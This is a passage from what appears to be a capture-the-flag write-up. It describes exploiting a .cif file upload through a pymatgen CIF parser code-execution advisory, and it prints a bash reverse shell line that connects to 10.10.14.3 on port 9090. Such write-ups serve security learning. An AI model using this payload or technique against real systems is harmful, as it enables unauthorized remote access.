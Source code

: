 ### 2.2 Upload Functionality

The application accepts only `.cif` files and provides a sample in **here** button:

![cif_example](screenshots/cif_example.png)

Researching CIF file parsing, we found a security advisory for `pymatgen` CIF parser:  
[GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f) — **Arbitrary Code Execution** vulnerability.

We crafted a malicious `.cif` file containing a reverse shell payload:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.3/9090 0>&1'
```

![rs_cif](screenshots/rs_cif.png)

